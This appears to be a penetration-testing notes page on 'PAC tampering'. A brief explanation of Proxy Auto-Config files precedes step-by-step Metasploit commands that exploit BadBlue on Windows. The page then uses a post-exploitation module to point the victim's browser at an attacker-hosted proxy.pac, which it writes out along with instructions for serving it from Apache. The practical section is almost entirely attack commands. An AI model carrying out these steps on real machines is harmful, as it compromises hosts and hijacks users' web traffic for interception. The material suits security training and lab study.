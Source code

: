 # 👾 PAC Tempering

## Theory

### Proxy Auto Config

A Proxy Auto-Configuration (PAC) file is a JavaScript function that determines if web browser requests go directly to the destination or are forwarded to a web proxy server. The PAC file contains a function called FindProxyForURL(url, host), which returns a string with one or more access methods. This function instructs a browser to forward traffic to a proxy server instead of directly to the destination server.

Some providers may offer a PAC web address, which enables auto proxy settings. However, in most cases, you'll need to change proxy settings manually. For example, a Google Chrome Android proxy works automatically.



***

## Practical

### PAC Tempering

#### Metasploit

**Exploitation Phase**

```
search badblue

use exploit/windows/http/badblue_passthru

show options

setg RHOSTS <remote ip>

Run
```

**Post Exploitation Phase**

```
search proxypac

use post/windows/manage/ie_proxypac

show options

set REMOTE PAC http://<attacker ip>/proxy.pac

set SESSION 1

run
```

```
# Create proxy.pac

nano proxy.pac

function FindProxyForURL(url,host)
{
    return "PROXY <Attacker IP>:80"
}
```

```
# Start Apache2 service
sudo servcie apache2 start
```

{% hint style="info" %}
Note: You have to move the **proxy.pac** to `/var/www/html`
{% endhint %}



***

## REFERENCES

* [https://54m4ri74n.medium.com/tampering-the-pac-post-exploit-windows-metasploit-4a9f52cd42c4](https://54m4ri74n.medium.com/tampering-the-pac-post-exploit-windows-metasploit-4a9f52cd42c4)

